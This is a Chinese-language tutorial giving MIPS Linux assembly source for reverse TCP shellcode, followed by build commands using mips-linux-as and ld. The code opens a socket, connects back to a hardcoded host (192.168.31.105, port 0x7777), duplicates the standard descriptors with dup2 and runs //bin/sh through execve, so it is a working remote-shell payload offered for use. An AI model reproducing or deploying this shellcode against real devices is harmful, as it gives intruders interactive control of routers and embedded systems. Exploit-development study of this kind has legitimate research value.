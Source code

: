 
## 一：Reverse_Tcp汇编源码
### 1.1
.section .text
.global __start
.set noreorder
__start:

#sys_socket
#ao = admin
#a1 = type
#a2 = protocol
li $t7,-6			
nor $t7,$t7,$zero  	 //$t7 = not($t7 or $zero) = 5
addi $a0,$t7,-3		 //$a0 = 2		
addi $a1,$t7,-3		 //$a1 = 2
slti $a2,$zero,-1	 //$a2 = 0
li   $v0, 0x1057	 //sys_socket系统调用号，通过动态调试C语言版本的代码获得
syscall        

#connect
#a0 = socket
#a1 = ser_addr(family(word),port(word),ip(dword),0(qword))
#a2 = len
sw $v0,-1($sp)	 	//$v0 = sys_socket返回值
lw $a0,-1($sp)		//$a0 = $v0
li $t7,0xfffd		------------------------------
nor $t7,$t7,$zero
sw $t7,-32($sp)		//$t7 = 0000 0002(family)
lui $t6,0x7777
ori $t6,$t6,0x7777
sw $t6,-28($sp)		//$t6 = 7777 7777(port)
lui $t6,0xc0a8
ori $t6,$t6,0x1f69	//$t6 = c0a8 1f69(ip address)
sw $t6,-26($sp)		
addiu $a1,$sp,-30   //$a1 = ser_addr
li $t4,-17		   ------------------------------
nor $a2,$t4,$zero	//$a2 = ser_addr len
li  $v0, 0x104A	   ------------------------------
syscall

#dup2
#a0 = oldfd
#a1 = newfd(0,1,2)
li $s1,-3
nor $s1,$s1,$zero 			//$s1 = 2(0：标准输入 1：标准输出 2：标准错误)
lw $a0,-1($sp)				//$a0 = sys_socket返回值		
dup2_loop:move $a1,$s1		//$a1 = $s1
li $v0, 0xFDF
syscall
li $s0,-1					//$s0 = -1
addi $s1,$s1,-1				//$s1-=$s1
bne $s1,$s0,dup2_loop		//$s1!=$s0 进行循环

#execve
#a0 = filename
#a1 = argv
#a2 = envp
slti $a2,$zero,-1			//$a2 = 0			
lui $t7,0x2f2f
ori $t7,$t7,0x6269
sw $t7,-20($sp)     	    //$t7 = -20($sp) = 2f2f 6269 (//bi)
lui $t6,0x6e2f
ori $t6,$t6,0x7368			//$t6 = 6e2f 7368(n/sh)
sw $t6,-16($sp)
sw $zero,-12($sp)			
addiu $a0,$sp,-20			//$a0 = //bin/sh
sw $a0,-8($sp)
sw $zero,-4($sp)
addiu $a1,$sp,-8			//$a1 = &(//bin/sh)
li $v0, 0xFAB
syscall

### 1.2execve函数定义
1、execve的定义形式：int execve(const char *filename, char *const argv[], char *const envp[]);

2、参数说明：

const char *filename：执行文件的完整路径。

char *const argv[]：传递给程序的完整参数列表，包括argv[0]，它一般是程序的名。

char *const envp[]：一般传递NULL，表示可变参数的结尾。

## 二：如何编译此段汇编代码

使用跨平台的编译工具buildroot中的用来将汇编代码编译成中间文件，
### mips-linux-as
位于跨平台编译工具buildroot中用来编译汇编源码，-o参数将指定文件编译为中间文件
例如本例中：
~~~
mips-linux-as -o s.o ./reverse_tcp_asm.S
~~~
### mips-linux-ld
位于跨平台编译工具buildroot中用来链接中间文件，-o参数将指定文件链接为可执行文件
例如本例中：
~~~
mips-linux_ld s.o -o ./reverse_tcp_asm
~~~



